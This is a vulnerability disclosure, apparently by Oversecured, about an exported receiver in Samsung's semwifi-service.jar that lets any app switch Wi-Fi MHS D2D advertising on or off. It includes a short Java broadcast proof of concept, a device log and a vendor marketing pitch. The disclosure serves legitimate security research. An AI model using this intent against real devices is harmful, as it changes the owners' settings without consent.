


# Details

<table>
    <tr>
        <td>Name</td>
        <td>Samsung Android Framework</td>
    </tr>
    <tr>
        <td>Library path</td>
        <td><code>/system/framework/semwifi-service.jar</code></td>
    </tr>
    <tr>
        <td>Reported date</td>
        <td>2022.09.05</td>
    </tr>
    <tr>
        <td>Fixed date</td>
        <td>2022.12.06</td>
    </tr>
    <tr>
        <td>Severity</td>
        <td>Low</td>
    </tr>
    <tr>
        <td>Handle</td>
        <td>N/A</td>
    </tr>
    <tr>
        <td>Reward</td>
        <td>$250</td>
    </tr>
</table>

# Description

Oversecured found the ability to change Wi-Fi AP D2D MHS settings in the file `com/samsung/android/server/wifi/softap/smartethering/SemWifiApSmartD2DMHS.java`, this is the receiver registration:


This is how the body of the method looks like:


So when the attacker provides the action `com.samsung.android.server.wifi.softap.smarttethering.startD2DMHS` and specifies `status` as 1, the Wi-Fi MHS D2D Advertise will be enabled. Otherwise, it'll be disabled.

**Proof of Concept**

Enabling Wi-Fi MHS D2D Advertise:
```java
Intent i = new Intent("com.samsung.android.server.wifi.softap.smarttethering.startD2DMHS");
i.putExtra("status", 1);
sendBroadcast(i);
```

After running, the function was enabled and the following log was displayed:
```
09-05 19:06:42.292  1371  2931 I SemWifiApSmartD2DMHS: Preconditions BLE is ON
09-05 19:06:42.303  1371  2931 I SemWifiApSmartD2DMHS: Preconditions BLE is ON
09-05 19:06:42.303  1371  2931 D SemWifiApSmartD2DMHS:  startWifiApSmartD2DMHSAdvertize : status:0,isAdvRunning:false
09-05 19:06:42.309  1371  2931 D SemWifiApSmartD2DMHS: Started startWifiApSmartD2DMHSAdvertize with [1, 18, 0, 0, 0, 0, 0, 0, 0, 0, 3, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0]
09-05 19:06:42.391  1371  1371 D SemWifiApSmartD2DMHS: MHS D2D Advertise Started.
```

## References

- [Oversecured Blog. Discovering vendor-specific vulnerabilities in Android](https://blog.oversecured.com/Discovering-vendor-specific-vulnerabilities-in-Android/)

## Conclusion

Mobile app security is more critical than ever in today's digital landscape. As we have shown through our research, even the most reputable brands are not immune to the threat of cyberattacks. 

At Oversecured, we are committed to help our clients stay ahead of the curve with our industry-leading mobile app vulnerability scanning technology. With our comprehensive approach to mobile app security, you can trust that your brand and your users are protected from data breaches and other security threats.

Don't wait until it's too late. [Get a free consultation](https://oversecured.com/contact-us?utm_source=github&utm_medium=article&utm_campaign=samsung2022) and find out how we can help secure your mobile apps. Together, we can build a safer digital world.